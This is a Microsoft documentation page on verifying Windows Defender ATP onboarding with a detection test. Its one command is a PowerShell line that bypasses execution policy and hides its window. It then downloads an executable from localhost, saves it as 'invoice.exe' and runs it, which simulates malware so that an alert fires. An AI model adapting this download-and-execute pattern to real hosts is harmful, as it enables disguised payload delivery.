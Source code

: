 ```yaml
---
title: Run a detection test on a newly onboarded Windows Defender ATP machine
description: Run the detection script on a newly onboarded machine to verify that it is properly onboarded to the Windows Defender ATP service.
keywords: detection test, detection, powershell, script, verify, onboarding, windows defender advanced threat protection onboarding, clients, servers, test
search.product: eADQiWindows 10XVcnh
ms.prod: w10
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
ms.localizationpriority: high
ms.date: 11/06/2017
---
```


#  Run a detection test on a newly onboarded Windows Defender ATP machine 

**Applies to:**

- Windows 10 Enterprise
- Windows 10 Education
- Windows 10 Pro
- Windows 10 Pro Education
- Windows Defender Advanced Threat Protection (Windows Defender ATP)


Run the following PowerShell script on a newly onboarded machine to verify that it is properly reporting to the Windows Defender ATP service.

1. Open an elevated command-line prompt on the machine and run the script:

    a.  Go to **Start** and type **cmd**.

    b.  Right-click **Command Prompt** and select **Run as administrator**.

    ![Window Start menu pointing to Run as administrator](images/run-as-admin.png)

2. At the prompt, copy and run the following command:

    ```
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'
    ```

The Command Prompt window will close automatically. If successful, the detection test will be marked as completed and a new alert will appear in the portal for the onboarded machine in approximately 10 minutes.

## Related topics
- [Onboard Windows 10 machines](configure-endpoints-windows-defender-advanced-threat-protection.md)
- [Onboard servers](configure-server-endpoints-windows-defender-advanced-threat-protection.md)